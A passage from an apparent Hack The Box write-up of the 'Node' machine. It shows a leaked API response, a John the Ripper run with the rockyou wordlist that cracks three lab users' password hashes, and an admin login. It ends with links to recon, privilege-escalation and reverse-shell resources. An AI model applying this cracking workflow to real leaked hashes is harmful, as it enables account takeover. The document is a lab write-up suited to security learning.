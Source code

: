 ![API User Info leak](/assets/images/HTB/node/user-api-leak-2.png)

We have a new administrator user, and their hashed password to boot. Time to throw all of these into JtR and see what comes out.

```bash
$ john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hashes.txt --format=Raw-SHA256
Loaded 4 password hashes with no different salts (Raw-SHA256 [SHA256 512/512 AVX512BW 16x])
Warning: poor OpenMP scalability for this hash type, consider --fork=3
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob        (tom)
manchester       (myP14ceAdm1nAcc0uNT)
snowflake        (mark)
```

Looks like we got credentials for every account except "rastating". I was able to use the "myP14ceAdm1nAcc0uNT" account to login to the application as an administrator.


[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[bad-keys]: https://github.com/rapid7/ssh-badkeys
[linpeas]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[tty-shell]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell